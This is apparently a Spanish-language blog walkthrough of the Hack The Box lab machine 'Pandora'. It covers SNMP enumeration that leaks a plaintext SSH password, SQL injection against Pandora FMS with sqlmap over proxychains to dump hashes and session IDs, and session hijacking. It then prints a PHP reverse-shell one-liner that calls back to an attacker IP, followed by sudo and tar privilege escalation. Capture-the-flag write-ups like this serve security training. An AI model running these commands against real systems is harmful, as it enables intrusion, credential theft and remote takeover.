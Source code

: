 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
Esta maquina es una de las faciles de HtB, su sistema operativo es Ubuntu linux. E intentaremos llegar a las flags de la maquina.

- <a href="#desarrollo">Desarrollo</a>

![Nmap segundo scanning](/assets/images/pandora/nmap2PANDA.png)

Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Intentaremos usar diferentes herramientas para descubrir informacion sobre este servicio encontrado 
Con el modulo scanner/snmp/snmp_login de msfconsole, encontramos la version del sistema operativo y del servicio snmp
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP y un community string que generalmente se usa llamado “public” 

Nos instalamos la herramienta
```sc
sudo apt-get install snmp-mibs-downloader
download-mibs
```

Ya que conocemos un string usado, podemos proceder a usarlo para acceder a los datos transmitidos con el comando:

```sc
snmpwalk -v 1 -c public panda.htb
```
![Primer scan con snmpwalk](/assets/images/pandora/snmpwalk1.png)
La herramienta anterior es un poco lenta y agresiva, para hacerlo mas rapido, podemos usar otra herramienta, que su sintaxis es:

```sc
braa public@10.10.11.136:.1.3.6.*
```
![Braa](/assets/images/pandora/braa.png)

Encontramos 3 palabras clave, las cuales pueden ser
- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords


Después con la herramienta snmpenum, seguiremos recopilando informacion de la maquina

```sc
snmpenum 10.10.11.136 public linux.txt
snmpwalk -c public -v2c -On 10.10.11.136

```
Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```
![Segundo scan con snmpwalk](/assets/images/pandora/snmpwalk_pass.png)

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```

Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

![Configuracion de Proxy](/assets/images/pandora/proxy_config.png)

![Prueba del proxy](/assets/images/pandora/proxy_working.png)

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
![Proxychain config file](/assets/images/pandora/proxychain_conf.png)

Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 
![Sqlmaping with proxychain](/assets/images/pandora/sqlmap_pass.png)

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttsessions_php --dump
``` 

![Php sessions con sqlmap](/assets/images/pandora/php_sessions.png)

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de este <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">CVE</a>, no se pudo establecer una shell. Pero si fue posible hacer algo con este  <a href="https://shells.systems/pandorafms-v7-0ng-authenticated-remote-code-execution-cve-2019-20224/">articulo</a> Asi que copie el URL y lo pegue para obtener mi cookie de admin, y funciono. Ahora que somos admin del FMS, termine en el archivo de administrador del dashboard.

![Edicion del codigo de Python](/assets/images/pandora/code_edition.png)

![Admin cookie](/assets/images/pandora/admin_cookie.png)

Intente cargar un shell de php, pero no funciono. Asi que cargue una webshell y usandola para obtener una shell.

```sc
php -r '$sock=fsockopen("10.10.14.135",9602);exec("/bin/sh -i<&3>&32>&3");'
``` 
Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hayq ue revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.


